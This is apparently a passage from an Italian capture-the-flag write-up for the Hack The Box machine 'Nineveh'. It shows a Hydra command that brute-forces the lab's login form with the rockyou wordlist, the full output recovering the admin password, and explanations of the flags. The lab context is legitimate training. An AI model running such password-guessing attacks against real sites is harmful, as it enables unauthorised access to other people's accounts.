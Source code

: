 
Proviamo a forzare la password con hydra:

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-22 07:06:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-22 07:06:57

```

- -l: specifica il nome utente per essere admin.
- -P: specifica il file che contiene le password.
   http-post-form: specifica una richiesta HTTP POST. 
-  “….”: il contenuto tra virgolette specifica i parametri username/password da testare e il messaggio di login fallito.

Abbiamo delle credenziali 
admin:1q2w3e4r5t

Loggandoci  veniamo reindirizzati a http://10.10.10.43/department/manage.php  e ci troviamo davanti un immagine che ci dice ce il sito è in costruzione.

![](../zzz_rev/attachments/nineveh3.png)
